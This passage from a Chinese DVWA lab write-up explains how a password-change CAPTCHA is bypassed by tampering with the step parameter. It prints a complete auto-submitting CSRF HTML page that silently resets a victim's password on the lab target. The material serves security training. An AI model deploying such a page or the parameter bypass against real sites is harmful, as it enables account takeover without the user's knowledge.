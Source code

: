 可以看到，服务器将改密操作分成了两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交 post 请求，服务器完成更改密码的操作。但是，这其中存在明显的逻辑漏洞，服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码。


**通过构造参数绕过验证过程的第一步**

首先输入密码，点击 Change 按钮，抓包，更改 step 参数绕过验证码：

![image](../../../assets/img/安全/实验/dvwa/dvwa38.png)

ps:因为没有翻墙，所以没能成功显示验证码，发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

由于没有任何的防 CSRF 机制，我们可以轻易地构造攻击页面，页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```
